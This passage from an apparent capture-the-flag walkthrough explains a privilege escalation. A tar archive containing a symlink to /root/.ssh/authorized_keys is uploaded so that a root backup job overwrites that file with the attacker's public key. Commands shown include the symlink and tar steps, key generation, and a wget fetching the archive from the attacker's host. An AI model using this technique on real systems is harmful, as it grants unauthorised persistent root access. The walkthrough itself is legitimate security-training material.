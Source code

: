 We can assume that the archived data is copied somewhere and unpacked. We can exploit this by creating a symbolic link to a file we want to overwrite upon extraction. We can simply use `/root/.ssh/authorized_keys` to add our public key.

The exploitation process will happen like this:

1.) Overwriting backup location

Upon extraction the logs.tar file points to /root/.ssh/authorized_keys. `logs.tar -> /root/.ssh/authorized_keys`.

2.) Overwriting target file

Upon the second extraction the contents of the logs.tar file from the container is written to `/root/.ssh/authorized_keys`.



For this we have to first create the symbolic link, then pack the file in a tar archive and upload it to `/opt/fatty/tar/logs.tar`. We then have to wait for the archive to be uploaded. After the archive being uploaded, we overwrite the archive with our public-key.

```bash
root@darkness:~# ln -s /root/.ssh/authorized_keys logs.tar
root@darkness:~# ls -lh logs.tar 
lrwxrwxrwx 1 root root 26 Jul 27 11:35 logs.tar -> /root/.ssh/authorized_keys
root@darkness:~# tar cf logs2.tar logs.tar 
root@darkness:~# mv logs2.tar logs.tar
```

Now we have a logs.tar archive that contains a logs.tar file that points to `/root/.ssh/authorized_keys`.

```bash
root@darkness:~# ssh-keygen -f id_rsa -N ""
Generating public/private rsa key pair.
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:YsOI8jiY7io8x1EOniDxPFAFEFstoOEcqLfwhfZ8c18 root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|**++.            |
|B+o .            |
|+B o             |
|+.Bo.+           |
|o=+** = S        |
|.=o+oooo.   E    |
|* o .. o . .     |
|o+ o      .      |
|=oo              |
+----[SHA256]-----+
```

We can now upload the file and look at our pspy output to see when it is being copied.

```bash
2f265ce12800:/opt/fatty/tar$ wget 10.10.14.8/logs.tar
Connecting to 10.10.14.8 (10.10.14.8:80)
logs.tar             100% |********************************| 10240  0:00:00 ETA
```
